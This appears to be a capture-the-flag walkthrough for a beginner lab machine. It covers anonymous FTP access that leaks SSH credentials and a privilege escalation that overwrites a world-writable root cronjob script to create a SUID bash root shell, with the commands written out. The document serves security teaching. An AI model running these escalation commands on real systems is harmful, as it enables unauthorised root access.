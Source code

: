 # FTP-Vuln
FTP-Vuln is a beginner-level machine designed to teach how to identify and exploit misconfigurations in network protocols. The goal is to escalate from basic user access to root access through a series of logical and accessible steps.
Write-Up: ftp-vuln – Boot-to-Root Walkthrough

Overview

Difficulty: Beginner

Target OS: Ubuntu Server 20.04

Services: FTP, SSH

Flags:

/home/thmuser/user.txt

/root/root.txt



Step 1: Service Enumeration

We begin by scanning the machine with nmap to discover open ports and service versions:

nmap -sC -sV -Pn <TARGET_IP>

Results:

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.x

Both FTP and SSH are open. Let's investigate FTP first.



Step 2: Anonymous FTP Access

Attempting to connect to the FTP server with anonymous login:

ftp <TARGET_IP>
Name: anonymous
Password: [ENTER]

Inside the FTP session, we list and download files from the files directory:

cd files
ls
get readme.txt

The file readme.txt contains the following credentials:

credenciales: thmuser:123456



Step 3: SSH Access

Now that we have valid credentials, we connect via SSH:

ssh thmuser@<TARGET_IP>
# Password: 123456

Once inside the system, we retrieve the first flag:

cat /home/thmuser/user.txt

Flag 1:

TryHackMe{user_flag}


Step 4: Privilege Escalation - Cronjob Discovery

We begin local enumeration to identify privilege escalation vectors:

cat /etc/cron.d/rootjob

Output:

* * * * * root /usr/local/bin/backup.sh

Checking the script:

ls -l /usr/local/bin/backup.sh

It has 777 permissions (-rwxrwxrwx), meaning any user can modify it.


Step 5: Exploit the Cronjob

We edit the vulnerable cronjob script to copy /bin/bash with the SUID bit set:

echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash\nchmod +s /tmp/rootbash' > /usr/local/bin/backup.sh
chmod +x /usr/local/bin/backup.sh

Wait about 1 minute for the cronjob to run. Then:

/tmp/rootbash -p
whoami

Output:

root

We now have a root shell.



Step 6: Capture the Final Flag

With root access, we can now retrieve the second and final flag:

cat /root/root.txt

Flag 2:

TryHackMe{root_flag}


Summary

Step	Action	Result

1	Service enumeration with Nmap	Found FTP and SSH
2	Anonymous FTP access	Leaked user credentials
3	SSH login with leaked creds	Gained access as thmuser
4	Found vulnerable root cronjob	/usr/local/bin/backup.sh
5	Injected payload for root shell	Root via cronjob
6	Captured user.txt and root.txt	Machine fully pwned 

Machine created by: orami
